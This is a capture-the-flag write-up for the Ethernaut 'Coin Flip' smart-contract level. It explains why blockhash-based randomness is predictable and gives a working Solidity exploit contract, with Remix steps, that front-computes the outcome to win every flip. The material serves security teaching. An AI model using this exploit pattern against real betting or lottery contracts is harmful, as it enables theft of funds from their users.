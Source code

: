 # Coin Flip

So the contract takes in your guess and then see that you guess was same as `True` or `False`, which it generated in someway. If it was your `Win` goes +1 if not everything goes back to `0`.

### outcome generation

The way it generates the outcome is in the following way:
- Take current blockhash
- generate a uint256 from that hash
- Divide it by the `FACTOR` value
- If that value is `1` then it should be `true` else `false`.

## Solution

I had to see how the solution was done, so I read this(https://github.com/dmidye/EthernautChallengeSolutions/blob/master/03-Coinflip/Coinflip.md)

The solution is actually pretty neat, we use all the code from the main contract and then in the process of decision making we see that if the answer would be `true` so we send `true`, if the answer will be `false` then we send `false`.

This is because the factors responsible for calculating the win/loss are very predictable. 
- 1 is the current block number
- Another is hardcoded string

## Exploit Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

// import '@openzeppelin/contracts/math/SafeMath.sol';
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.2.0/contracts/math/SafeMath.sol";

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


contract CoinFlipHack {

  using SafeMath for uint256;
  CoinFlip ogContract = CoinFlip(0x9add8Ab90055E2F8fa4F2041d6d11A7dDd93152F);
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function fliphack() public{
    uint256 blockValue = uint256(blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == true) {
        ogContract.flip(true);

    } else {
        ogContract.flip(false);
    }
  }
}
```

In the `Environment` of the Remix use `Injected Web3`. Then deploy the `CoinFlipHack` and call it 10 times.

If in doubt then just go to the console and run `await contract.consecutiveWins()` and it will return the object which contains the wins you've had.

```json
{
  "negative": 0,
  "words": [
    6,
    null
  ],
  "length": 1,
  "red": null
}
```

See the `6` in words that is the consecutiveWins I've had.

